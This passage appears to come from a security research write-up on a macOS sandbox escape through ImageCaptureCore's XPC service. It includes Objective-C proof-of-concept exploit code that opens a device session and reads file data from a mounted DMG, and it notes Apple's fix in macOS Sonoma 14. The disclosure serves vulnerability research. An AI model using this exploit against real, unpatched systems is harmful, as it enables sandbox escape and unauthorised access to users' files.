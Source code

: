 A sandboxed application could drop the DMG file and then open the DMG file to mount it to trigger the issue.

The XPC client has already been implemented in the ImageCaptureCore framework. The exploit code is as follows:

```
@interface MyDeviceDelegate : NSObject<ICCameraDeviceDelegate>
@end
@implementation MyDeviceDelegate
- (void)cameraDevice:(ICCameraDevice *)camera didAddItems:(NSArray<ICCameraItem *> *)items { 
    NSLog(@"didAddItems");
    for (ICCameraFile *item in items) {
        NSLog(@"new file item:%@", item); // TODO: I should check the item type(file/folder) and item name here.
        [item requestReadDataAtOffset:0 length:item.fileSize completion:^(NSData *data, NSError *err) {
            NSLog(@"Got file data:%@ (%@)", data, [NSString stringWithCString:[data bytes] encoding:NSUTF8StringEncoding]);
        }];
    }
}
@end
@interface MyDeviceBrowserDelegate : NSObject<ICDeviceBrowserDelegate>
@end
@implementation MyDeviceBrowserDelegate
- (void)deviceBrowser:(ICDeviceBrowser *)browser didAddDevice:(ICDevice *)device moreComing:(BOOL)moreComing { 
    NSLog(@"didAddDevice:%@", device);
    device.delegate = devDelegate; // instance of MyDeviceDelegate
    [device requestOpenSession];
}
@end
void exploit(void) {
    ICDeviceBrowser *deviceBrowser = [[ICDeviceBrowser alloc]init];
    MyDeviceBrowserDelegate *browserDelegate = [[MyDeviceBrowserDelegate alloc]init];
    deviceBrowser.delegate = browserDelegate;
    [deviceBrowser start];
}
```

Demo link: https://youtu.be/bvJwne8b2g4

### The patch 1

Apple addressed the vulnerability in macOS Sonoma 14 by adding a new check in the function `acceptConnection:`:

<img src="../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020152404523.png" alt="image-20241020152404523" style="zoom:50%;" />
